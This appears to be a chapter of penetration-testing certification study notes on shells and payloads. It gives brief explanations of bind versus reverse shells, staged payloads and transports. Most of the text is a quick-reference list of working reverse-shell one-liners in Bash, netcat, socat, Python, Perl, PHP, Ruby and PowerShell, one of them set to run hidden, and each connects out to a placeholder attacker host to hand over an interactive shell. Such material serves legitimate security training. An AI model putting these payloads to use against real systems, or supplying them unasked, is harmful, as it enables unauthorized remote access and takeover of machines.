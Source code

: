 # Shells & Payloads

This chapter covers core concepts, techniques, and command references for working with shells and payloads across common offensive security contexts. It’s organized to match a typical CPTS study flow: fundamentals, payload generation, delivery methods, handlers/listeners, shell upgrades, file transfer, port forwarding, AV/EDR evasion basics, Windows/Linux specifics, and troubleshooting.

## 1. Shell Fundamentals
- Shell types:
  - Bind shell: Target opens a listening port; attacker connects in. Pros: simple. Cons: firewall/egress may block inbound.
  - Reverse shell: Target connects out to attacker listener. Pros: better through egress. Cons: requires outbound allow-listing.
  - Interactive vs non-interactive: TTY/PTY provides line-editing, job control, stable I/O.
  - Stagers vs stageless: Staged payload fetches stage from listener (smaller initial payload). Stageless contains full payload (larger but simpler network).
- Common ports: 21, 22, 80/443, 445, 8080, 8443 (choose ports allowed by egress controls).
- Transport choices: TCP (most common), HTTP/HTTPS (proxy-friendly), DNS, ICMP, SMB/Named Pipes (lateral movement), WebSockets.

## 2. Quick Reference: One‑Liner Reverse Shells
- Bash TCP:
  - bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
- Bash /dev/tcp (POSIX):
  - 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; sh <&196 >&196 2>&196
- Netcat (traditional):
  - nc -e /bin/sh ATTACKER_IP ATTACKER_PORT
- Netcat (OpenBSD variant):
  - rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
- BusyBox nc:
  - busybox nc ATTACKER_IP ATTACKER_PORT -e /bin/sh
- Socat reverse TTY:
  - socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:ATTACKER_PORT
- Python:
  - python3 -c 'import os,pty,socket; s=socket.socket(); s.connect(("ATTACKER_IP",ATTACKER_PORT)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")'
- Perl:
  - perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
- PHP:
  - php -r '$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
- Ruby:
  - ruby -rsocket -e 'f=TCPSocket.open("ATTACKER_IP",ATTACKER_PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
- PowerShell (TCP):
  - powershell -nop -w hidden -c "$c=New-Object Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$o=$r+[Text.Encoding]::ASCII.GetBytes('PS> ');$s.Write($o,0,$o.Length)}" 
- Windows cmd.exe via PowerShell:
  - powershell -c "$client=New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream=$client.GetStream();$writer=New-Object IO.StreamWriter($stream);$buffer=New-Object byte[] 1024;while(($read=$stream.Read($buffer,0,1024)) -ne 0){$data=(New-Object Text.ASCIIEncoding).GetString($buffer,0,$read);$send=(cmd /c $data) 2>&1;$writer.Write($send+"`n");$writer.Flush()}"
